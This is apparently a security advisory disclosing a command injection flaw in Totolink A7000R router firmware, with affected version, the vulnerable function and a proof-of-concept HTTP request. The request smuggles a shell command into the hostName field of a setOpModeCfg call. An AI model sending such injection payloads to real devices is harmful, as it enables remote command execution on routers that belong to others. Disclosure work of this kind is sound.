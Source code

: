 # Totolink A7000R Has an command injection vulnerability

## 1. Affected version:

Totolink A7000R V9.1.0u.6115_B20201022(Transition version)

## 2. Firmware download address

[TOTOLINK](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/171/ids/36.html)
![image](https://user-images.githubusercontent.com/73413552/221508389-e59a233e-a4fb-4a77-9e58-62f8b0d1df0d.png)

## 3. Vulnerability details

The function "sub_423970" contains a Command Injection Caused by Format String Vulnerabilities. 
In the function, Attackers can control v48 by controlling the hostName parameter, and then control the parameters of the doSystem function。
As a result, by requesting the page, an attacker can easily execute a Dos attack or RCE with carefully crafted overflow data.


![image](https://user-images.githubusercontent.com/73413552/221512750-00e0c3be-7b6c-4045-bfa8-c99b2cccf8be.png)



## 4. Recurring vulnerabilities and POC

Due to China legal and policy reasons, we are unable to provide the exploit for tis vulnerability at this time.

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
Content-Length: 109
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.0.1
Referer: http://192.168.0.1/advance/index.html?time=1677576032102
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_ID=2:1677576031:2
Connection: close

{
"opmode":"br",
"proto":"2",
"switchOpMode":"1",
"topicurl":"setOpModeCfg",
"hostName":"admin';ps #"
}
```
![image](https://user-images.githubusercontent.com/73413552/221814054-a1b96ceb-60e0-417c-be6a-6b85ef0b2bc1.png)


## 5. Author

Mark @KRLab
